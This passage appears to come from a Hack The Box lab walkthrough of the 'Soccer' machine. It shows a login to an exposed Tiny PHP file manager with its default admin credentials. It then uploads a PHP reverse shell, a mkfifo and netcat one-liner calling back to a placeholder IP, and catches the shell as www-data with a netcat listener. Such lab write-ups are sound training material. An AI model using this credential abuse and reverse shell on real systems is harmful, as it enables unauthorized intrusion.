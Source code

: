 ```text-plain
2023/05/07 18:18:58 Finished
===============================================================
```

Gobuster found the subdomain /tiny so lets navigate there in the web browser. 

![image](https://github.com/Arcsin00/HTB-Walkthroughs/assets/110564012/45800b3e-851b-44f3-8dcb-787c6d2806b2)


File Upload
-----------

At http://soccer.htb/tiny/  we find a login page. After a bit a googling we find out that Tiny is a simple PHP web based file manager and the default credentials are admin:admin@123 and user:12345. Lets try these and see if they have been changed yet. 

![image](https://github.com/Arcsin00/HTB-Walkthroughs/assets/110564012/a4f67061-3ff7-478f-b506-123f4654af3e)


And there we have it, we're logged in as admin! After some poking around it seems we can create and upload files in the tiny/uploads directory. Since we know Tiny is PHP based so lets grab a PHP reverse shell from payloadallthethings github. [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```text-plain
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f"); ?>
```

You'll need to replace the IP with your IP address and specify the port you're going to listen on. Then start a netcat listener to catch the reverse shell.

```text-plain
nc -nlvp 4444        
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

Then either create a file on your machine with the payload in it, or just use the new item button in the top right of the webpage file manager, make sure you're in the tiny/uploads folder and save your file with the .php extension.

Webshell Access
---------------

Once the payload is saved in the uploads folder click the preview icon to execute your shell code. Check your netcat listener which should have caught the connection. We now have shell access to the target with the _www-data_ user.

```text-plain
Ncat: Connection from 10.10.11.194.
Ncat: Connection from 10.10.11.194:50836.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
